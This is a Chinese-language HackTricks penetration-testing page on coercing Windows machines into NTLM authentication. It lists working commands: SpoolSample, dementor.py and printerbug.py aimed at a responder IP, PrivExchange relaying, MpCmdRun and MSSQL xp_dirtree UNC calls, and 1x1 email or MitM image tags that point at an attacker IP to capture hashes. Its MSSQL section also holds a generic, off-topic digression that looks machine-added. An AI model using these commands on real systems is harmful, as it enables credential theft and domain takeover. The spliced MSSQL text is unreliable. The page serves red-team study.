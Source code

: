 # 强制使用NTLM特权身份验证

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks云 ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 推特 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 YouTube 🎥</strong></a></summary>

* 你在一家**网络安全公司**工作吗？你想在HackTricks中看到你的**公司广告**吗？或者你想获得**PEASS的最新版本或下载PDF格式的HackTricks**吗？请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 发现我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品[**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* **加入**[**💬**](https://emojipedia.org/speech-balloon/) [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)，或者**关注**我在**Twitter**上的[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**
* **通过向[hacktricks仓库](https://github.com/carlospolop/hacktricks)和[hacktricks-cloud仓库](https://github.com/carlospolop/hacktricks-cloud)提交PR来分享你的黑客技巧**。

</details>

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers)是一个使用MIDL编译器编写的C#代码的**远程身份验证触发器集合**，用于避免第三方依赖。

## Spooler服务滥用

如果启用了_**打印池**_服务，您可以使用一些已知的AD凭据向域控制器的打印服务器**请求**更新新的打印作业，并告诉它**将通知发送到某个系统**。\
请注意，当打印机向任意系统发送通知时，它需要对该系统进行**身份验证**。因此，攻击者可以使_**打印池**_服务对任意系统进行身份验证，并且该服务将在此身份验证中使用计算机帐户。

### 在域上查找Windows服务器

使用PowerShell获取Windows机器的列表。服务器通常是优先级较高的，所以我们重点关注这些服务器：
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### 寻找正在监听的打印池服务

使用稍作修改的 @mysmartlogin（Vincent Le Toux）的 [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket)，查看打印池服务是否正在监听：
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
您还可以在Linux上使用rpcdump.py，并查找MS-RPRN协议。
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### 请求服务对任意主机进行身份验证

您可以从[这里编译**SpoolSample**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**。**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
或者在Linux上使用[**3xocyte的dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket)或[**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)。
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### 结合无限制委派

如果攻击者已经入侵了具有[无限制委派](unconstrained-delegation.md)的计算机，攻击者可以**使打印机对该计算机进行身份验证**。由于存在无限制委派，**打印机的计算机帐户的TGT将保存在**具有无限制委派的计算机的**内存**中。由于攻击者已经入侵了该主机，他将能够**检索此票证**并滥用它（[传递票证](pass-the-ticket.md)）。

## RCP强制身份验证

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

`PrivExchange`攻击是由于Exchange Server的`PushSubscription`功能中的一个缺陷而导致的，该功能允许**任何具有邮箱的域用户强制Exchange服务器对客户端提供的任何主机进行身份验证**。

Exchange服务以**SYSTEM**身份运行，并且默认情况下**权限过高**（即，在2019年累积更新之前具有对域的WriteDacl权限）。可以利用此缺陷来**中继到LDAP并转储域NTDS数据库**。如果无法中继到LDAP，则可以利用此缺陷中继和对域内的**其他主机进行身份验证**。此攻击将使您直接成为具有任何经过身份验证的域用户帐户的域管理员。

****[**此技术的来源在此。**](https://academy.hackthebox.com/module/143/section/1276)****

## 在Windows内部

如果您已经在Windows机器内部，可以使用特权帐户强制Windows连接到服务器：

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL

MSSQL（Microsoft SQL Server）是一种关系型数据库管理系统，常用于存储和管理大量数据。它是由微软开发的，具有强大的功能和高性能。

#### MSSQL注入攻击

MSSQL注入攻击是一种常见的网络攻击技术，通过利用应用程序对MSSQL数据库的不正确处理，攻击者可以执行恶意的SQL查询，从而获取敏感数据或者对数据库进行破坏。

#### MSSQL注入攻击的防御措施

为了防止MSSQL注入攻击，可以采取以下措施：

- 使用参数化查询或预编译语句，确保输入的数据被正确地转义和验证。
- 限制数据库用户的权限，避免使用具有过高权限的账户。
- 定期更新和修补MSSQL服务器，以防止已知的漏洞被利用。
- 监控数据库的日志，及时发现异常行为并采取相应的应对措施。

#### MSSQL漏洞利用工具

以下是一些常用的MSSQL漏洞利用工具：

- **sqlmap**：一款功能强大的自动化SQL注入和数据库接管工具。
- **MSSQLPwn**：一款专门用于MSSQL服务器的渗透测试工具，可以执行各种攻击，如注入、提权等。
- **Metasploit**：一款广泛使用的渗透测试框架，其中包含了许多用于MSSQL漏洞利用的模块。

#### MSSQL安全加固建议

为了提高MSSQL服务器的安全性，可以采取以下措施：

- 使用强密码保护MSSQL服务器的登录凭证。
- 禁用不必要的服务和功能，减少攻击面。
- 定期备份数据库，并将备份文件存储在安全的位置。
- 使用防火墙限制对MSSQL服务器的访问。
- 定期审计和监控MSSQL服务器的活动，及时发现异常行为。

#### MSSQL常见漏洞

以下是一些常见的MSSQL漏洞：

- **SQL注入漏洞**：允许攻击者执行恶意的SQL查询，从而获取敏感数据或者对数据库进行破坏。
- **弱密码漏洞**：使用弱密码保护MSSQL服务器的登录凭证，容易被攻击者猜解或暴力破解。
- **未经授权访问漏洞**：未正确配置访问控制，导致攻击者可以未经授权地访问MSSQL服务器。
- **未修补漏洞**：未及时更新和修补MSSQL服务器，使得已知的漏洞可以被攻击者利用。

#### MSSQL安全审计

MSSQL安全审计是一种对MSSQL服务器进行全面检查和评估的过程，旨在发现潜在的安全风险和漏洞，并提供相应的修复建议。通过进行安全审计，可以提高MSSQL服务器的安全性，并保护敏感数据免受攻击。
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
或者使用另一种技术：[https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

## HTML注入

### 通过电子邮件

如果你知道要入侵的机器上登录用户的**电子邮件地址**，你可以发送一封带有1x1像素图片的**电子邮件**，例如：
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
### MitM

如果你能对一台计算机进行中间人攻击，并在他可视化的页面中注入HTML，你可以尝试在页面中注入如下图像：
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## 破解NTLMv1

如果你能够捕获[NTLMv1挑战，请阅读这里如何破解它们](../ntlm/#ntlmv1-attack)。\
_请记住，为了破解NTLMv1，你需要将Responder挑战设置为"1122334455667788"_
